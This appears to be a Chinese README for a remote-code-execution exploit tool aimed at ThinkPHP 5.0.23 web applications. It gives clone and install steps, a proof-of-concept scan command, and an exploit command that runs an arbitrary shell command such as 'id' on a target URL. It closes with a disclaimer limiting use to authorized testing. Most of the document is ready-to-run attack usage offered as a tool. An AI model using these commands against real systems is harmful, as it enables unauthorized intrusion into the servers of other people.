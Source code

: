 ## thinkphp5.0.23 rce

## 安装

```
git clone https://github.com/1derian/thinkphp5-rce.git
cd thinkphp5-rce
pip3 install -r requirements.txt
```

## 使用

poc

```
python3 tppoc.py -u http://www.yyy.com
```

exp

```
python3 tpexp.py -u http://www.xxx.com -c id
```

## 免责声明🧐

本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建测试环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。
